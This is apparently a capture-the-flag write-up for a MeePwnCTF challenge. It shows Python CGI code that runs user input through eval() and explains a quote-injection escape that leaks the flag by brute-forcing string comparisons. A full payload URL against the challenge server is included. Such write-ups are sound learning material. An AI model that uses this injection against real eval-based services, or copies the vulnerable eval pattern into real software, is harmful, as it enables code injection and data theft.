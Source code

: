 ```python
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)

    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)

    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))
    print('>>>> print('+escape(calc_eval)+')')

    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")
```

We can pass our input in parameter *value1*, *value2*, and *op*. The first two values should be less than 64 bit and cannot have any of `()[]"'`, while the the first byte of op can only be `+-/*=!`. Also, it only allows us to return number and boolean.

We need to have a look on `repr`. It will add quotes in you input to keep it as a string. However, we still control the second byte of op. We can change it to `'` to escape the sandbox. What's more, we need to add a `#` at the end of value2. Otherwise, the parser of python will throw an error because we have 5 `'` now.

Therefore, we can set `value1`=`TheValueYouWantToGuess`,`op`=>`'`, and `value2`=`+ FLAG#`, which equals to:
```python
eval('ValueOfFlag' > '' + FLAG)
```

Because Python supports string comparison(e.g. `'AAAB' > 'AAAA' # True`). We can brute-force the flag. But the runner of the CTF is a dick. After getting `MeePwnCTF{python3.66666666666666_`, the next byte is one of `()[]"'`. How can we get it? Look at the `source` value in the code. That's a string we control without being filtered! Thus, just simply change our payload to
 ```
 http://178.128.96.203/cgi-bin/server.py?value1=MeePwnCTF{python3.66666666666666_&op=%2B%27&value2=%2bsource+in+FLAG+and+True+or+False%23&source=(
```

, which execute:
```python
eval("'MeePwnCTF{python3.66666666666666_'+''+source in FLAG #'")
```
> source=`(` here

So, by brute-forcing remaining characters, we can get the flag.
